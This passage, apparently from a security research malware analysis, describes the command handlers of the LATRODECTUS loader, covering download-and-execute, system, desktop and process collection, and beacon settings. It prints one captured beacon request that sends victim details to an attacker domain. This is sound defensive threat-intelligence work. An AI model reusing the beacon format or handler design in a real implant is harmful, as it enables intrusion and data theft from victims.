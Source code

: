 LATRODECTUS’s core functionality is driven through its command handlers. These handlers are used to collect information from the victim machine, provide execution capabilities as well as configure the implant. We have seen two additional handlers (retrieve processes, desktop listing) added since the initial [publication](https://medium.com/walmartglobaltech/icedid-gets-loaded-af073b7b6d39) which may be a sign that the codebase is still active and changing. 


| Command ID | Description |
| ---------- | ----------- |
| 2 | Retrieve file listing from desktop directory |
| 3 | Retrieve process ancestry |
| 4 | Collect system information |
| 12 | Download and execute PE |
| 13 | Download and execute DLL |
| 14 | Download and execute shellcode |
| 15 | Perform update, restart |
| 17 | Terminate own process and threads |
| 18 | Download and execute ICEDID payload |
| 19 | Increase Beacon Timeout |
| 20 | Resets request counter |

#### Desktop listing - command ID (2)

This command handler will retrieve a list of the contents of the user’s desktop, which the developer refers to as ```desklinks```. This data will be encrypted and appended to the outbound beacon request. This is used for enumerating and validating victim environments quickly.

![Desktop listing (Handler #2)](/assets/images/spring-cleaning-with-latrodectus/image16.png)


**Example request**:

```
counter=0&type=1&guid=249507485CA29F24F77B0F43D7BA&os=6&arch=1&username=user&group=510584660&ver=1.1&up=4&direction=aytobusesre.com&desklinks=["OneDrive.lnk","OneNote.lnk","PowerPoint.lnk","Notepad++.lnk","Excel.lnk","Google Chrome.lnk","Snipping Tool.lnk","Notepad.lnk","Paint.lnk"]
```

#### Process ancestry - command ID (3)

This event handler is referenced as **proclist** by the developer where it collects the entire running process ancestry from the infected machine via the **CreateToolhelp32Snapshot** API. 

![Retrieve process ancestry (Handler #3)](/assets/images/spring-cleaning-with-latrodectus/image25.png)


Like security researchers, malware authors are interested in process parent/child relationships for decision-making. The authors of LATRODECTUS even collect information about process grandchildren, likely to validate different compromised environments.
